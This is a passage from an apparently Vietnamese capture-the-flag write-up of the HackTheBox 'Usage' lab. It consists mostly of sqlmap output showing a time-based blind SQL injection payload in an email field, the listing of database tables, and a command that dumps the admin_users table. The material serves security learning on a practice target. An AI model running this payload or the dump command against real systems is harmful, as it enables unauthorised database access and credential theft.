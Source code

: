 ```python
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=MIkLtbJSRbSB12kmbrAHgIrQmZ5sfn3GNujMZt9v&email=admin@mail.com' AND 3261=BENCHMARK(5000000,MD5(0x6f7a696c))-- QjGd
---
[23:57:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 8
[23:57:30] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[23:57:30] [INFO] fetching current database
[23:57:30] [INFO] resumed: usage_blog
[23:57:30] [INFO] fetching tables for database: 'usage_blog'
[23:57:30] [INFO] fetching number of tables for database 'usage_blog'
[23:57:30] [INFO] resumed: 15
[23:57:30] [INFO] resumed: admin_menu
[23:57:30] [INFO] resumed: admin_operation_log
[23:57:30] [INFO] resumed: admin_permissions
[23:57:30] [INFO] resumed: admin_role_menu
[23:57:30] [INFO] resuming partial value: admi
[23:57:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:57:30] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
n_role_permissions
[23:57:51] [INFO] retrieved: admin_role_users
[23:58:05] [INFO] retrieved: admin_roles
[23:58:11] [INFO] retrieved: admin_user_permissions
[23:58:46] [INFO] retrieved: admin_users
[23:58:53] [INFO] retrieved: blog
[23:59:01] [INFO] retrieved: failed_jobs
[23:59:24] [INFO] retrieved: migrations
[23:59:46] [INFO] retrieved: password_reset_token
```

Tiếp tục khai thác với db *usage_blog* và table *admin_users*

```pyhton
┌──(kali㉿kali)-[~/HTB-Usage]
└─$ sudo sqlmap -r request.txt --level=5 --risk=3 -D usage_blog -T admin_users --dump --batch
        ___
       __H__                                                                                                                                                                                                            
 ___ ___[']_____ ___ ___  {1.8.4#stable}                                                                                                                                                                                
|_ -| . ["]     | .'| . |                                                                                                                                                                                               
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                               
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                            

.......
[00:07:18] [INFO] fetching columns for table 'admin_users' in database 'usage_blog'
[00:07:18] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:07:18] [INFO] retrieved: 
```